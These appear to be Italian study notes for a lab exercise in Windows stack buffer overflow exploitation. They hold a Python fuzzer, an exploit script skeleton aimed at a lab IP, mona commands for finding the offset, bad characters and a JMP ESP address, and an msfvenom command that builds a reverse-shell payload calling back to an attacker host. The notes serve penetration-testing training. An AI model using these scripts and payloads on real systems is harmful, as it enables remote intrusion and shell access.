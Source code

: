## **SETUP**

Configurazione di mona
```mona
!mona config -set workingfolder c:\mona\%p
```
### **script per fare fuzzing e trovare il punto di segmentation fault**
```PYTHON
#!/usr/bin/env python3
import socket, time, sys
ip = "<IP>"
port = <PORT>
timeout = 5
string = "A" * 100
while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
            print("Fuzzing with {} bytes".format(len(string)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string)))
        sys.exit(0)
    string += "A" * 100
    time.sleep(1)
```
![[Pasted image 20230512095414.png]]
### **Controllo dell'eip**
```python
import socket
ip = "10.10.206.203"
port = 1337
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""
buffer = overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
	s.connect((ip, port))
	print("Sending evil buffer...")
	s.send(bytes(buffer + "\r\n", "latin-1"))
	print("Done!")
except:
	print("Could not connect.")
```
Runna il seguente comando con con una maggiorazione di 400 bytes in più rispetto alla strunga che ha fatto crashare prima
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <N>
```
Copialo nella variabile payload dello script ed eseguilo. Dovrebbe crashare il programma

Usa il seguente comando per vedere i log. Se non si vedono Window > Log Data > CPU
```mona
!mona findmsp -distance 600
```
Trova la seguente riga
```
EIP contains normal pattern : ... (offset XXXX)
```
![[Pasted image 20230512095626.png]]
Scrivi l'offset allìinterno della variabile offet dello script e metti payload vuoto. Imposta retn su BBBB e sovrascriverai l'EIP
![[Pasted image 20230512095641.png]]
## **Trovare bad characters**
Genera un bytearray con mona
```mona
!mona bytearray -b "\x00"
```
genera una stringa uguale con il seguente script
```python
for x in range(1, 256):
	print("\\x" + "{:02x}".format(x), end='')
print()
```
Inserisci la stringa nella variabile payload e avvia lo script( ricorda di avviare il programma su immunity). Vedi dove punta l'esp ed usa il seguente comando
```mona
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
Prendi nota dei bad characters trovati e genera un altro bytearray senza di questi.
Ripeti finchè il bitearray non sarà immodificato.
![[Pasted image 20230512095825.png]]
## **JUMP POINT**
Con il programma crashato runna il seguente comando includendo tutti i bad characters
```mona
!mona jmp -r esp -cpb "\x00"
```
Il comando mostra i jump esp in log data. Scegli un indirizzo e scrivilo all'interno della variabile retn.

ex: 635011af diventa /xaf/x11/x50/x63

## **GENERA IL PAYLOAD**
Runna il comando per generare il payload, includi tutti i bad characters
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.69.95 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
E incollalo nello script
crea spazio al payload aggiungendo al padding
```bash
padding = "\x90" * 32
```